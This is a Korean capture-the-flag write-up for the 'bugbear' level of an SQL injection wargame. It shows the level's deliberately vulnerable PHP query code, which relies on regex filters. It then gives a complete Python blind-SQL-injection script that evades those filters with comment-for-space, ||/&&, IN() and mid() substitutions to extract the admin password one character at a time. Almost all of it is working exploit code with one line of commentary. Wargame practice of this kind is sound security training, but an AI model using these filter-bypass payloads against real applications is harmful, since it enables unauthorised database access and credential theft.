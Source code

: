 ## Bugbear
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
### exploit
Darkknight 문제와 비슷하지만 필터링하는 것이 더 많다.
비슷한 방법으로 필터링을 우회하면 문제를 해결할 수 있다.

```python
import requests

url = 'https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php'
cookie = {"PHPSESSID" : 'cookie 값'}

for i in range(1, 100):
    param = {'no': f'0/**/||/**/id/**/in/**/("admin")/**/&&/**/length(pw)<{i}#'}
    res = requests.get(url, params=param, cookies=cookie)    
    if 'Hello admin' in res.text:
        length = i - 1
        print(f"pw\'s length is {length}")
        break

length = 8
password = ''
for len in range(1,length+1):
    for pw in range(ord('0'), ord('z')):
        param = {'no' : f'1/**/||/**/id/**/in/**/("admin")/**/&&/**/mid(pw,{str(len)},1)/**/in/**/("{chr(pw)}")#'}
        res = requests.get(url, params = param, cookies = cookie)
        if 'Hello admin' in res.text:
            print(f'{len} : {chr(pw)}')
            password = password + chr(pw)
            break

print(password.lower())
```
<br>

